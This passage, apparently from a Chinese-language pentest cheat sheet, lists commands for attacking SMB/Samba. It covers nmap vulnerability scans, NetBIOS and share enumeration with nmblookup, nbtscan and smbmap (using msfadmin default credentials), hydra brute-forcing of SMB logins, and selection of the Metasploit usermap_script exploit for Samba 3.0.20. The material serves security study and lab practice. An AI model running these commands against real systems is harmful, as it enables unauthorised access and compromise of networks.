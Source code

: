 #### [](#nmap-1)nmap

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>nmap -sV -p 445 IP<br>nmap -sV -v -p 445 --script=smb-vuln*<br>``` |

#### [](#nmblookup)nmblookup

nmblookup 用于查询 NetBIOS 名称，并使用基于 TCP/IP 的 NetBIOS 查询将它们映射到网络中的 IP 地址。这些选项允许将名称查询定向到特定的 IP 广播区域或特定的机器。所有查询都通过 UDP 完成。

nmblookup 是用于枚举域/工作站和 MAC 地址的有用命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nmblookup -A 192.168.1.139<br>``` |

#### [](#nbtscan)nbtscan

扫描在本地或远程 TCP/IP 网络上 NetBIOS 打开的名称服务器，因为这是查找打开共享的第一步

可以在整个子网中工作，而不是在单个 IP 上工作

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nbtscan 192.168.1.1/24<br>``` |

#### [](#smbmap)SMBMap

SMBMap 允许用户枚举整个域中的 samba 共享驱动器。列出共享驱动器，驱动器权限，共享内容，上载/下载功能，文件名自动下载模式匹配，甚至执行远程命令。旨在简化大型网络中潜在敏感数据的搜索。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>smbmap -H 192.168.1.139<br>smbmap -H 192.168.1.139 -u msfadmin -p msfadmin<br>``` |

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-2)暴力破解

#### [](#hydra-3)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -L user.txt -P pass.txt -v smb://ip<br>``` |

### [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)命令执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>search smb 3.0.20<br>use exploit/multi/samba/usermap_script<br>``` |

## [](#zookeeper)Zookeeper
